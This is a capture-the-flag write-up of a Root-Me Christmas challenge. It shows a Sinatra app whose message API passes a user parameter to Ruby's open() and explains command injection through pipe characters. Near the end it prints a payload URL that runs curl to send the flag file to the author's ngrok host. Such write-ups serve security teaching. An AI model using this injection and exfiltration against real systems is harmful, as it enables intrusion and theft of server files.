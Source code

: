 # Santa Sweet Words (day18)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify">In this challenge a ruby website was deployed, and the goal was to read the flag on the server machine, located in /. The source code was available to download and is attached below :</p>

````ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end
````

<p align="justify">After a quick read, it appeared to me that the vulnerability was located in the message API, which was taking a 'number' parameter and concatenating '.txt' to it for file download. Because of the extension added to the filename a simple local file inclusion thanks to path traversal payload wasn't exploitable. After a few read I found (<a href="https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html">doc)</a> it was possible to run commands and escape the filename handled with the open() method, using | char. Hence what I've tried at first was to escape the filename variable with only one | . Nonetheless as shown below, It only triggered download of an empty file the name of my command :</p>  

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Actually it was caused by the append of .txt at the end of the payload. After a few tries, I  finally came up with the exploit below consisting in putting the paylaod between 2 pipe char : | payload |. Hence what I've done had been to open a listening port on my machine, and then sent the content of the flag to my server with the request below :

````bash
https://day18.challenges.xmas.root-me.org/api/message?number=|curl http://ngrokFQDN:port/($cat /*)|

````
And I finaly received the flag !  
<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

Flag : _RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}_ , thanks _Elweth_ for this challenge !

